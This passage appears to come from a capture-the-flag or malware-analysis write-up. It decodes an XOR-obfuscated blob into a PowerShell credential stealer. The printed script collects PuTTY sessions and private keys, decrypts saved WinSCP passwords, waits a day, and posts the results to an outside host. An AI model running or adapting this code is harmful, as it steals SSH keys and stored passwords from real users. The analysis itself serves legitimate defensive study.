0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000029290003773e073d10137064210a0d0413061002151d06014e682d091c15175266331b0d171d06011d792900000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000002929000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000029006c131b0d171d06014e642106110b09043a2b1d0c372b09131302171117253e073d1013780c5617080c0807070709373112005a095b71002a0003036331170415111653410f4e4f0d080f061754571e1d1c48460a0d0647410f0a445217080c0807070709373112005350021d1f1517061d0c16792a0004420a0d06262f0a34311200531d1d0200025c5c73360909061759622d080f0617540d7d221d1f1517060d59460a0d064b5e17080c08070707093731120079002a000303733b010f12544c090312541414420b1d07534514041c1f170d090b1a5446091d52420302081c1613161753430c021d11151d0b0b05051d0d59571e1d1c484f0308011752703f181217213b0d09004c561317011a06011d792a0004420f1b010702170d4c1d1d080a12010301070103010f01780301070103640c47070a011d37294e0c5617080c080707070937311200286b6d74090a0a11071f232a00045716060c010a12170d4c1d1d0212010301070103010f01780301070103640c47070a011d37294e0c5617080c080707070937311200286a6c7423002a00046525000101441d1d04420f1b010702170d4c0b0b045716060c010a12170d66002a0004400106110b09041101363716061918541d1d080000054f0c011b54080c6525000101440d4f1a171d5204692c060e0a4a000905051207031f090b0b1207031f0905051207033c002a0004420a0d06262f0a343112005d480a0d06471d1d04400106110b090411013637160619187e2a0004420a0d06262f0a343112005d5c17080c080707070937311200531d1d045617080c0807070709373112005d7d26171107061b07094f1a1b23002a0052171101071c4e04420a0d06262f0a3431120079007777006c131b0d171d06014e642106110b0904233e073d10130031120004181d164c0c773616001a060126271c071a0f0c08490c04773616001a06013b2616171c0f0c08490c047431120004181d164d095b71002a0004672b0d06082d2a0d06471d1d1207003f2a0004692c060e0a431d1d11070539002a000448090b4e1d1d103a2a00044f0e1c591d1d0004773616001a060126271c071a0f0c08450b0b04773616001a06013b2616171c0f0c086f2a000452170d191016531d1d642106110b09043a2b1d0c372b09131302171117253e073d1013780c7431120004181d164d23002a000457071b1d1701222a0d06471d1d0452170d1910165d480a0d06472a002a00490f46080c52170d1910165d480a0d06470d48145104672b0d06082d2a0d064e095b712a0000000452170d1910165d5c17080c080707070937311200531d1d0452170d1910165d5c17080c0807070709373112005d7d26171107061b07094f1a1b232a0000000452170d191016531d1d642106110b09043a2b1d0c372b09131302171117253e073d1013780c52170d1910165d5c17080c0807070709373112005a232a005d77002a000448090b4e1d1d0452170d1910165d480a0d066d002a000452170d191016531d1d642106110b09043a2b1d0c372b09131302171117253e073d1013780c52170d1910165d5c17080c0807070709373112005a232a000452170d1910165d5c17080c080707070937311200531d1d0452170d1910165d5c17080c0807070709373112005d7d26171107061b07094f000c52170d1910165d480a0d06470a0a121b0023002a0004420f070f0d233a01040501541d1d0200282a0046091d52080c4d540d0b1b044d490d4118540448090b551b044d420002095b712a0000000452170d191016531d1d086c2106110b09043a2b1d0c372b09131302171117253e073d1013780c52170d1910165d5c17080c0807070709373112005a00232a00000004420f070f0d233a01040501540b161d7b380b09132f7952170d1910165d480a0d066d2a005d77002a00490f46080c57071b1d1701222a0d06470d48145104672b0d06082d2a0d064e095b712a00000052171101071c4e04420f070f0d233a010405015a7d26171107061b07094f0c4f0e1c5742090b09131c41232a005d77002a0052171101071c4e04420f070f0d233a010405017e007777000043271819040e487e3616001a060129281f180d1778005927151306597e3f09001550180e0204003a0043271819040e487a320730371404101607540d58071b49481c00044a15005a1c0b151f46470718170d050d5e02080808100d6028111c070b44703f1c07540d6f2d0b1d5904430b030d030d56560308")

    # set our initial prev value
    prev = 88

    # decode each byte one by one and update prev.  Print the result as we go.
    for byte in data:
        prev = byte ^ prev
        print(chr(prev), end="")
```

Our result appears to be another powershell script:

```powershell
$global:log = ""

function Write-Log($out) {
  $global:log += $out + "`n"
}

function Invoke-SessionGopher {
  # Value for HKEY_USERS hive
  $HKU = 2147483651
  # Value for HKEY_LOCAL_MACHINE hive
  $HKLM = 2147483650

  $PuTTYPathEnding = "\SOFTWARE\SimonTatham\PuTTY\Sessions"
  $WinSCPPathEnding = "\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions"

  
  Write-Log "Digging on $(Hostname)..."

  # Aggregate all user hives in HKEY_USERS into a variable
  $UserHives = Get-ChildItem Registry::HKEY_USERS\ -ErrorAction SilentlyContinue | Where-Object {$_.Name -match '^HKEY_USERS\\S-1-5-21-[\d\-]+$'}

  # For each SID beginning in S-15-21-. Loops through each user hive in HKEY_USERS.
  foreach($Hive in $UserHives) {

    # Created for each user found. Contains all PuTTY, WinSCP, FileZilla, RDP information. 
    $UserObject = New-Object PSObject

    $ArrayOfWinSCPSessions = New-Object System.Collections.ArrayList
    $ArrayOfPuTTYSessions = New-Object System.Collections.ArrayList
    $ArrayOfPPKFiles = New-Object System.Collections.ArrayList

    $objUser = (GetMappedSID)
    $Source = (Hostname) + "\" + (Split-Path $objUser.Value -Leaf)

    $UserObject | Add-Member -MemberType NoteProperty -Name "Source" -Value $objUser.Value

    # Construct PuTTY, WinSCP, RDP, FileZilla session paths from base key
    $PuTTYPath = Join-Path $Hive.PSPath "\$PuTTYPathEnding"
    $WinSCPPath = Join-Path $Hive.PSPath "\$WinSCPPathEnding"

    if (Test-Path $WinSCPPath) {

      # Aggregates all saved sessions from that user's WinSCP client
      $AllWinSCPSessions = Get-ChildItem $WinSCPPath

      (ProcessWinSCPLocal $AllWinSCPSessions)

    } # If (Test-Path WinSCPPath)
    
    if (Test-Path $PuTTYPath) {

      # Store .ppk files
      $PPKExtensionFilesINodes = New-Object System.Collections.ArrayList
      
      # Aggregates all saved sessions from that user's PuTTY client
      $AllPuTTYSessions = Get-ChildItem $PuTTYPath

      (ProcessPuTTYLocal $AllPuTTYSessions)
      
      (ProcessPPKFile $PPKExtensionFilesINodes)

    } # If (Test-Path PuTTYPath)

  } # For each Hive in UserHives
    
  Write-Host "Final log:"
  $global:log

} # Invoke-SessionGopher

####################################################################################
####################################################################################
## Registry Querying Helper Functions
####################################################################################
####################################################################################

# Maps the SID from HKEY_USERS to a username through the HKEY_LOCAL_MACHINE hive
function GetMappedSID {

  # If getting SID from remote computer
  if ($iL -or $Target -or $AllDomain) {
    # Get the username for SID we discovered has saved sessions
    $SIDPath = "SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProfileList\$SID"
    $Value = "ProfileImagePath"

    return (Invoke-WmiMethod -ComputerName $RemoteComputer -Class 'StdRegProv' -Name 'GetStringValue' -ArgumentList $HKLM,$SIDPath,$Value @optionalCreds).sValue
  # Else, get local SIDs
  } else {
    # Converts user SID in HKEY_USERS to username
    $SID = (Split-Path $Hive.Name -Leaf)
    $objSID = New-Object System.Security.Principal.SecurityIdentifier("$SID")
    return $objSID.Translate( [System.Security.Principal.NTAccount])
  }

}


####################################################################################
####################################################################################
## File Processing Helper Functions
####################################################################################
####################################################################################

function ProcessThoroughLocal($AllDrives) {
  
  foreach ($Drive in $AllDrives) {
    # If the drive holds a filesystem
    if ($Drive.Provider.Name -eq "FileSystem") {
      $Dirs = Get-ChildItem $Drive.Root -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
          ".rdp" {[void]$RDPExtensionFilesINodes.Add($Dir)}
          ".sdtid" {[void]$sdtidExtensionFilesINodes.Add($Dir)}
        }
      }
    }
  }

}


function ProcessPuTTYLocal($AllPuTTYSessions) {
  
  # For each PuTTY saved session, extract the information we want 
  foreach($Session in $AllPuTTYSessions) {

    $PuTTYSessionObject = "" | Select-Object -Property Source,Session,Hostname,Keyfile

    $PuTTYSessionObject.Source = $Source
    $PuTTYSessionObject.Session = (Split-Path $Session -Leaf)
    $PuTTYSessionObject.Hostname = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $PuTTYSessionObject.Keyfile = ((Get-ItemProperty -Path ("Microsoft.PowerShell.Core\Registry::" + $Session) -Name "PublicKeyFile" -ErrorAction SilentlyContinue).PublicKeyFile)

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfPuTTYSessions.Add($PuTTYSessionObject)
    
    # Grab keyfile inode and add it to the array if it's a ppk
    $Dirs = Get-ChildItem $PuTTYSessionObject.Keyfile -Recurse -ErrorAction SilentlyContinue
      foreach ($Dir in $Dirs) {
        Switch ($Dir.Extension) {
          ".ppk" {[void]$PPKExtensionFilesINodes.Add($Dir)}
        }
      }
  }

  if ($o) {
    $ArrayOfPuTTYSessions | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY.csv") -NoTypeInformation
  } else {
    Write-Log "PuTTY Sessions"
    Write-Log ($ArrayOfPuTTYSessions | Format-List | Out-String)
  }

  # Add the array of PuTTY session objects to UserObject
  $UserObject | Add-Member -MemberType NoteProperty -Name "PuTTY Sessions" -Value $ArrayOfPuTTYSessions

} # ProcessPuTTYLocal

function ProcessWinSCPLocal($AllWinSCPSessions) {
  
  # For each WinSCP saved session, extract the information we want
  foreach($Session in $AllWinSCPSessions) {

    $PathToWinSCPSession = "Microsoft.PowerShell.Core\Registry::" + $Session

    $WinSCPSessionObject = "" | Select-Object -Property Source,Session,Hostname,Username,Password

    $WinSCPSessionObject.Source = $Source
    $WinSCPSessionObject.Session = (Split-Path $Session -Leaf)
    $WinSCPSessionObject.Hostname = ((Get-ItemProperty -Path $PathToWinSCPSession -Name "Hostname" -ErrorAction SilentlyContinue).Hostname)
    $WinSCPSessionObject.Username = ((Get-ItemProperty -Path $PathToWinSCPSession -Name "Username" -ErrorAction SilentlyContinue).Username)
    $WinSCPSessionObject.Password = ((Get-ItemProperty -Path $PathToWinSCPSession -Name "Password" -ErrorAction SilentlyContinue).Password)

    if ($WinSCPSessionObject.Password) {
      $MasterPassUsed = ((Get-ItemProperty -Path (Join-Path $Hive.PSPath "SOFTWARE\Martin Prikryl\WinSCP 2\Configuration\Security") -Name "UseMasterPassword" -ErrorAction SilentlyContinue).UseMasterPassword)

      # If the user is not using a master password, we can crack it:
      if (!$MasterPassUsed) {
          $WinSCPSessionObject.Password = (DecryptWinSCPPassword $WinSCPSessionObject.Hostname $WinSCPSessionObject.Username $WinSCPSessionObject.Password)
      # Else, the user is using a master password. We can't retrieve plaintext credentials for it.
      } else {
          $WinSCPSessionObject.Password = "Saved in session, but master password prevents plaintext recovery"
      }
    }

    # ArrayList.Add() by default prints the index to which it adds the element. Casting to [void] silences this.
    [void]$ArrayOfWinSCPSessions.Add($WinSCPSessionObject)

  } # For each Session in AllWinSCPSessions

  if ($o) {
    $ArrayOfWinSCPSessions | Export-CSV -Append -Path ($OutputDirectory + "\WinSCP.csv") -NoTypeInformation
  } else {
    Write-Log "WinSCP Sessions"
    Write-Log ($ArrayOfWinSCPSessions | Format-List | Out-String)
  }

  # Add the array of WinSCP session objects to the target user object
  $UserObject | Add-Member -MemberType NoteProperty -Name "WinSCP Sessions" -Value $ArrayOfWinSCPSessions

} # ProcessWinSCPLocal


function ProcessPPKFile($PPKExtensionFilesINodes) {

  # Extracting the filepath from the i-node information stored in PPKExtensionFilesINodes
  foreach ($Path in $PPKExtensionFilesINodes.VersionInfo.FileName) {

    # Private Key Encryption property identifies whether the private key in this file is encrypted or if it can be used as is
    $PPKFileObject = "" | Select-Object -Property "Source","Path","Protocol","Comment","Private Key Encryption","Private Key","Private MAC"

    $PPKFileObject."Source" = (Hostname)

    # The next several lines use regex pattern matching to store relevant info from the .ppk file into our object
    $PPKFileObject."Path" = $Path

    $PPKFileObject."Protocol" = try { (Select-String -Path $Path -Pattern ": (.*)" -Context 0,0).Matches.Groups[1].Value } catch {}
    $PPKFileObject."Private Key Encryption" = try { (Select-String -Path $Path -Pattern "Encryption: (.*)").Matches.Groups[1].Value } catch {}
    $PPKFileObject."Comment" = try { (Select-String -Path $Path -Pattern "Comment: (.*)").Matches.Groups[1].Value } catch {}
    $NumberOfPrivateKeyLines = try { (Select-String -Path $Path -Pattern "Private-Lines: (.*)").Matches.Groups[1].Value } catch {}
    $PPKFileObject."Private Key" = try { (Select-String -Path $Path -Pattern "Private-Lines: (.*)" -Context 0,$NumberOfPrivateKeyLines).Context.PostContext -Join "" } catch {}
    $PPKFileObject."Private MAC" = try { (Select-String -Path $Path -Pattern "Private-MAC: (.*)").Matches.Groups[1].Value } catch {}

    # Add the object we just created to the array of .ppk file objects
    [void]$ArrayOfPPKFiles.Add($PPKFileObject)

  }

  if ($ArrayOfPPKFiles.count -gt 0) {

    $UserObject | Add-Member -MemberType NoteProperty -Name "PPK Files" -Value $ArrayOfPPKFiles

    if ($o) {
      $ArrayOfPPKFiles | Select-Object * | Export-CSV -Append -Path ($OutputDirectory + "\PuTTY ppk Files.csv") -NoTypeInformation
    } else {
      Write-Log "PuTTY Private Key Files (.ppk)"
      Write-Log ($ArrayOfPPKFiles | Select-Object * | Format-List | Out-String)
    }

  }

} # Process PPK File


####################################################################################
####################################################################################
## WinSCP Deobfuscation Helper Functions
####################################################################################
####################################################################################

function DecryptNextCharacterWinSCP($remainingPass) {

  # Creates an object with flag and remainingPass properties
  $flagAndPass = "" | Select-Object -Property flag,remainingPass

  # Shift left 4 bits equivalent for backwards compatibility with older PowerShell versions
  $firstval = ("0123456789ABCDEF".indexOf($remainingPass[0]) * 16)
  $secondval = "0123456789ABCDEF".indexOf($remainingPass[1])

  $Added = $firstval + $secondval

  $decryptedResult = (((-bnot ($Added -bxor $Magic)) % 256) + 256) % 256

  $flagAndPass.flag = $decryptedResult
  $flagAndPass.remainingPass = $remainingPass.Substring(2)

  return $flagAndPass

}

function DecryptWinSCPPassword($SessionHostname, $SessionUsername, $Password) {

  $CheckFlag = 255
  $Magic = 163

  $len = 0
  $key =  $SessionHostname + $SessionUsername
  $values = DecryptNextCharacterWinSCP($Password)

  $storedFlag = $values.flag 

  if ($values.flag -eq $CheckFlag) {
    $values.remainingPass = $values.remainingPass.Substring(2)
    $values = DecryptNextCharacterWinSCP($values.remainingPass)
  }

  $len = $values.flag

  $values = DecryptNextCharacterWinSCP($values.remainingPass)
  $values.remainingPass = $values.remainingPass.Substring(($values.flag * 2))

  $finalOutput = ""
  for ($i=0; $i -lt $len; $i++) {
    $values = (DecryptNextCharacterWinSCP($values.remainingPass))
    $finalOutput += [char]$values.flag
  }

  if ($storedFlag -eq $CheckFlag) {
    return $finalOutput.Substring($key.length)
  }

  return $finalOutput

}


Invoke-SessionGopher

Start-Sleep 86400

Invoke-WebRequest -uri http://uibwh.invalid:8080 -Method Post -Body $global:log
```

At the bottom of the script, we see the POST request to `uibwh.invalid`, and we have our task 3 answers.